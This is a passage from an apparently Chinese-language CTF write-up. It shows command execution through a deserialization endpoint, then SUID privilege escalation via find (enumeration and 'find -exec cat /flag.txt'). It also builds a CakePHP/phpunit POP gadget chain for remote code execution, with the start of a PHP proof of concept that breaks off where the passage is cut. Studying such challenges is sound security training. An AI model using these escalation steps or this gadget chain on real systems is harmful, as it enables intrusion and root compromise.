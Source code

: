 `GET /ser?ser=xxxx` ， `ls`  `find` 之类的命令可以执行且有回显，但是 `cat /flag.txt` 无回显，之前学长提到过 suid 提权（从 www-data 提到 root），试一下能不能行

`find / -perm -u=s -type f 2>/dev/null` ，可以看到 `find` 有 suid 权限

```bash
/usr/bin/chsh
/usr/bin/find
/usr/bin/chfn
/usr/bin/su
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
```

执行 `find / -name flag.txt -exec whoami \;` ，返回 root ，提权成功

执行 `find / -name flag.txt -exec cat /flag.txt \;` ，拿到 flag

![image-20250126001404890](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67950dcd85cce.png)

#### 0x03 POP2

这是另一条链子，跟 0x00 背景知识没什么关系

`stream` 可控的情况下，可以调用任意类的 `__call` 方法

`/vendor/cakephp/cakephp/src/ORM/Table.php` ，`$method` 、 `$this->_behaviors` 可控，所以 `hasMethod($method)` 可控制永远为 true ，但是 `$args` 不可控

![image-20250125214317076](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794ea75d8335.png)

所以需要找一个能够 rce 的地方，且需要执行方法与函数形参无关（与成员变量有关）

`/vendor/phpunit/phpunit/src/Framework/MockObject/Generator/MockTrait.php` （或者  `MockClass.php` ），找到

![image-20250125215333731](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794ecde54da9.png)

其中 `classCode` 和 `mockName` 均可控

链子找到了：

```pop
RejectedPromise::__destruct()->Response::__toString()->Table::__call()->MockTrait::generate()
```

poc 如下

```php
<?php

namespace React\Promise\Internal;
use Cake\Http\Response;
class RejectedPromise {
    private $reason;
    private $handled = false;
    public function __construct() {
        $this->reason = new Response();
    }
}

namespace Cake\Http;
use Cake\ORM\Table;
class Response {
    private $stream;
    public function __construct() {
        $this->stream = new Table();
```
